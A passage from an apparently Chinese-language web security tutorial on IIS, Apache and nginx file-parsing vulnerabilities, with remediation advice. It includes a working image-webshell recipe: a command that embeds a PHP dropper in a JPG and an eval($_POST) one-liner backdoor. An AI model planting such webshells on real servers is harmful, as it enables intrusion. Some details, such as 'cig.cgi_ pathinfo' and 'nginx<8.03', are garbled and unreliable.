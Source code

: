 3）上传的文件进行重命名。

### 3.2.2.**IIS7.0/IIS7.5**

#### 3.2.2.1.**IIS7.0/IIS7.5Fast-CGI**

在Fast-CGI开启的状态下，在类似1.jpg后面加上/1.php,变成/1.jpg/1.php路径会解析成PHP文件。需要进入php.ini里面修改cig.cgi_ pathinfo=1。

将1.txt文本文件中的后门代码写入到1.jpg图片的二进制代码：

copy 1.jpg/b + 1.txt/a 1.jpg

1.txt的文件内容为：

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[password])?>');?>
```

当在图片文件中写入后门代码，当访问这个图片的时候加上/.php的时候就会在当前目录下生成一句话木马shell.php。

#### 3.2.2.2.**修复建议**

配置cgi.fix_pathinfo(php.ini中)为0并重启php-cgi程序 

![img](https://s2.loli.net/2023/03/13/gPXc5dBSiNaYhxW.jpg) 

## 3.3.**apache解析漏洞**

### 3.3.1.**apache解析漏洞**

在apache1.x和apache2.x中存在解析漏洞。

当一个文件为1.php.yy.xx的时候就会被当作php执行，这是由于在apache解析文件的时候有一个原则就是，以.后面的扩展名来解析，当遇见不认识的扩展名的时候，就会向前解析，直到遇到能够解析的后缀名为止。

如：1.php.yy.xx，首先会解析xx，xx无法解析就会去解析yy，yy无法解析就会去解析php，那么php是能够解析了，那么就会结束。

这种方式多用于绕过黑名单的检查。

### 3.3.2.**修复建议**

1）更新至最新版本。

2）将上传的文件进行重命名。

## 3.4.**nginx解析漏洞**

### 3.4.1.**nginx<8.03**

#### 3.4.1.1.**nginx配置文件错误**

由于nginx默认是用cgi解析php的，因此和iis一样可以制作图片马进行上传。

当在图片文件中写入后门代码，当访问这个图片的时候加上/.php的时候就会在当前目录下生成一句话木马shell.php。

#### 3.4.1.2.**修复建议**
